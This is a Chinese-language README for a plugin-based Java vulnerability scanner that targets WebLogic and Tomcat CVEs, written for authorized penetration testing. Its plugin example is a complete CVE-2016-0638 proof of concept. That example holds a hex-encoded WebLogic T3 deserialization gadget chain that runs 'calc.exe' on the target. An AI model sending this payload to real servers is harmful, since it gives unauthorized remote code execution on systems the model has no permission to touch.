



# Artillery 插件化 JAVA 漏洞扫描器（Weblogic、Tomcat、Spring...）

JAVA 插件化漏洞扫描器（Weblogic、Tomcat、Spring...），Gui基于javafx，POC 目前集成 Weblogic(21个)，Tomcat(2)、Shiro、Spring等陆续更新中。

- 插件化

- 批量扫描

- 支持多个Java中间件

  

联系方式：MTI1MjgyMDg0OSMo6A//YjpAKXFxLmNvbQ==

有任何问题，欢迎交流👏，提交POC请提issue或者直接联系我也行，开发能力实在堪忧，就不放源码了，需要的师傅可以直接邮件私聊。

## 更新记录

```
2022.05.16 - 更新了插件目录异常问题、Tomcat 系列漏洞 POC 2个
                CVE-2017-12615 CVE_2017_12615.jar
                Tomcat后台泄漏 ADMIN_PAGE.jar
                
2022.05.16 - 更新不能同时扫描不同类型POC的问题，更新POC HTTPS问题

2022.05.15 - 更新一些小bug

2022.05.15 - 更新 Weblogic 系列漏洞 POC 10个
                CVE-2020-14883 CVE_2020_14883.class
                CVE-2020-14882 CVE_2020_14882.class
                CVE-2019-2729 CVE_2019_2729.class
                CVE-2019-2725 CVE_2019_2725.class
                CVE-2018-3252 CVE_2018_3252.class
                CVE-2018-2894 CVE_2018_2894.class
                CVE-2017-3506 CVE_2017_3506.class
                CVE-2017-10271 CVE_2017_10271.class
                CVE-2014-4210 CVE_2014_4210.class
                CVE-2018-3245 CVE_2018_3245.class

2022.05.12 - 更新 Weblogic T3反序列化系列 POC 11个
                CVE-2015-4852 CVE_2015_4852.class
                CVE-2016-0638 CVE_2016_0638.class
                CVE-2016-3510 CVE_2016_3510.class
                CVE-2017-3248 CVE_2017_3248.class
                CVE-2018-2628 CVE_2018_2628.class
                CVE-2018-2893 CVE_2018_2893.class
                CVE-2018-3191 CVE_2018_3191.class
                CVE-2019-2890 CVE_2019_2890.class
                CVE-2020-2551 CVE_2020_2551.class
                CVE-2020-2555 CVE_2020_2555.class
                CVE-2020-2883 CVE_2020_2883.class
                
2022.05.12 - artillery V1.0 
```

### Usage:

POC插件目录放在同目录下目录结构如下，Plugin/中间件类型/libs(poc的依赖)、payloads(poc本体)/。

```
├── Plugin
│   └── weblogic
│       ├── libs
│       │   ├── commons-codec-1.2.jar
│       │   └── commons-collections-3.1.jar
│       └── payloads
│           ├── CVE_2015_4852.jar
│           ├── CVE_2016_0638.class
│           ├── CVE_2016_3510.class
│           ├── CVE_2017_3248.jar
│           ├── CVE_2018_2628.class
│           ├── CVE_2018_2893.class
│           ├── CVE_2018_3191.class
│           ├── CVE_2019_2890.class
│           ├── CVE_2020_2551.class
│           ├── CVE_2020_2555.class
│           └── CVE_2020_2883.class
└── artillery-1.0-SNAPSHOT-jar-with-dependencies.jar
```

扫描器UI



右键添加扫描任务，任务目标支持多个。



扫描截图


## POC插件编写规范

以 CVE-2016-0638 为例，

1. 需要定义4个变量 name、descript、code、result，其中result是默认的扫描结果，这些是该POC的基本信息。

2. 需要定义一个空构造函数，不为空也行。

3. Check函数，扫描时调用的就是该函数，参数为  String target 例如(http://127.0.0.1)，

   返回值为String result，即扫描结果，例如  "存在漏洞"

4. System.out.print()的输出会被重定向到扫描器下方的输出控制台中，例如POC中 System.out.println("回显："+res) 就会在输出在扫描器中，如图。

5. 最终编译成class或者jar包都可，**注意文件命名须与类名相同(如CVE-2016-0638.class)**，将需要的依赖放到 Plugin/中间件类型/libs(poc的依赖)，poc放到 Plugin/中间件类型/payloads

   

```
import com.artplugin.T3Protocol;
import java.net.URL;
public class CVE_2016_0638{
// 需要4个参数 name、descript、code、result，其中result是默认的扫描结果
    private String name = "weblogic T3反序列化(CVE-2016-0638)";
    private String descript = "StreamMessageImpl 类绕过黑名单。";
    private String code = "CVE-2016-0638";
    private String result = "未知错误";
   
  // 需要一个构造函数
    public CVE_2016_0638() {
    }

	//扫描时会调用Check函数、参数为  String target 例如（http://127.0.0.1）。
    public String Check(String target) throws Exception {
        //gadget.CVE_2016_0638()
        String checkPayload = "aced0005737200257765626c6f6769632e6a6d732e636f6d6d6f6e2e53747265616d4d657373616765496d706c6b88de4d93cbd45d0c00007872001f7765626c6f6769632e6a6d732e636f6d6d6f6e2e4d657373616765496d706c69126161d04df1420c000078707a000003f728200000000000000100000578aced00057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e747400124c6a6176612f6c616e672f4f626a6563743b7870737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b0200007870000000014c0001687400254c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b78707371007e00007372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e747400124c6a6176612f6c616e672f4f626a6563743b7870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001e00000002767200106a61767a0000018e612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001e7371007e00167571007e001b00000002707571007e001b00000000740006696e766f6b657571007e001e00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e001b7371007e0016757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000863616c632e657865740004657865637571007e001e0000000171007e00237371007e0011737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000010770800000010000000007878767200126a6176612e6c616e672e4f766572726964650000000000000000000000787071007e003a78";
        String[] checkSig = {
                "weblogic.jms.common.StreamMessageImpl",
                "org.apache.commons.collections.functors.InvokerTransformer",
                "$Proxy",
                "weblogic.rjvm.ClassTableEntry"
                };
        if (target.equals("0")) {
            return "url格式错误";
        }
        URL url = new URL(target);
        String res  = T3Protocol.sendPayload(url.getHost(),url.getPort(),checkPayload,3000);
        System.out.println("回显："+res);  
        for(String sig : checkSig){
            if(res.contains(sig)){
                return "存在 "+this.name;
            }
        }
        return "未发现 "+this.name;
        //根据回显判断是否存在漏洞
    }
    public static void main(String[] args) throws Exception {
        CVE_2016_0638 test = new CVE_2016_0638();
        String res = test.Check("http://127.0.0.1:7001");
        System.out.println(res);
    }

}

```


## 参考

https://github.com/0xn0ne/weblogicScanner

https://github.com/5up3rc/weblogic_cmd


## 📜免责声明

1. 本工具仅面向拥有合法授权的渗透测试安全人员及进行常规操作的网络运维人员，用户可在取得足够合法授权且非商用的前提下进行下载、复制、传播或使用。
2. 在使用本工具的过程中，您应确保自己的所有行为符合当地法律法规，且不得将此软件用于违反中国人民共和国相关法律的活动。本工具所有作者和贡献者不承担用户擅自使用本工具从事任何违法活动所产生的任何责任。